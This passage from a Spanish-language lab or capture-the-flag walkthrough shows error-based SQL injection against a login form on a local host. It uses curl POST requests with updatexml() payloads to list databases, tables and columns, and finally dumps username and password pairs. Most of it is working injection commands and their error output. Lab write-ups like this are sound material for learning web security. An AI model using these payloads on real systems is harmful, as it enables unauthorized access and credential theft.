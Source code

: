 recapitulando tenemos estas bases de datos:
```
information_schema
sion
mysql
performance_schema
Nebuchadnezzar
sys
```
Ahora nos fijamos en Nebuchadnezzar, una vez que sabemos la base de datos, hay que saber las tablas con esta consulta "SELECT table_name FROM information_schema.tables WHERE table_schema='Nebuchadnezzar' LIMIT 0,1":
con limite 0,1...con el 1,1 ya no reflejaba resultado
```bash
curl -X POST http://192.168.1.45/login.php \                                                                                                                                                                          
  -d "user=' AND updatexml(1, concat(0x7e, (SELECT table_name FROM information_schema.tables WHERE table_schema='Nebuchadnezzar' LIMIT 0,1), 0x7e), 1) -- -" \
  -d "pass=x"
```
```
<br />
<b>Fatal error</b>:  Uncaught mysqli_sql_exception: XPATH syntax error: '~users~' in /var/www/html/login.php:22
Stack trace:
#0 /var/www/html/login.php(22): mysqli-&gt;query()
#1 {main}
  thrown in <b>/var/www/html/login.php</b> on line <b>22</b><br />
```

Tenemos una base de datos que se llama "Nebuchadnezzar" que contiene una sola tabla de nombre "users", ahora toca las columnas:
```bash
curl -X POST http://192.168.1.45/login.php \
  -d "user=' AND updatexml(1, concat(0x7e, (SELECT column_name FROM information_schema.columns WHERE table_schema='Nebuchadnezzar' AND table_name='users' LIMIT 0,1), 0x7e), 1) -- -" \
  -d "pass=x"
```
```
'~id~'
```
con LIMIT 1,1:
```
'~username~'
```
y con LIMIT 2,1:
```
'~password~'
```

Ahora vamos a enumerar usuario por usuario:
```bash
curl -X POST http://192.168.1.45/login.php \                                                                                                                                                                          
  -d "user=' AND updatexml(1, concat(0x7e, (SELECT CONCAT(username, 0x3a, password) FROM Nebuchadnezzar.users LIMIT 0,1), 0x7e), 1) -- -" \
  -d "pass=x"

```
